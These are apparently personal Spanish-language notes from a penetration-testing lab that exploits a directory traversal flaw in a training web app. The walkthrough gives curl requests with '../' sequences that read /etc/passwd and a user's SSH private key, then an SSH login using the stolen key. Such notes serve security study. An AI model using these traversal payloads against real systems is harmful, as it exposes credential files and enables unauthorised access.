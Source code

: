 # Walk: Explorar vulnerabilidad Directory Traversal

## Fecha: 18/01/2025
## Host: Kali
## IP: 192.168.{subnet}.16

---

## Objetivo
Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" 
web application on VM #1. Use curl or Burp to obtain the SSH private key for the user offsec. 
Use it to connect via SSH on port 2222 and find **the flag in the SSH banner, which is displayed after you log in.**

---
## Herramientas
1. curl
2. ssh
---
## Procedimiento y comandos
1. Paso 1:Identificamos el parametro "page" como vulnerable a Directory Traversal 
2. Paso 2: Intentamos leer archivos del sistema:
	- curl -i http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
	- resultado positivo con el contenido del archivo
3. Paso 3: Leemos la clave privada ssh el archivo "id_rsa" y guardamos el valor de la calve en **dt_key**.
	- curl -i http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa -o dt_key
4. Paso 4: Nos conectamos por ssh al usuario detectado en el paso 2: offsec
	-  ssh -i dt_key -p 2222 offsec@mountaindesserts.com
---
## Troubleshooting
1. Cuidado con el formato de la clave ssh.
	- Observar que sea correcto: cat -v dt_key
	- Formatearla: dos2unix dt_key
2. Cambiar permisos de la clave:
	- chmod 600 o 400 dt_key

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

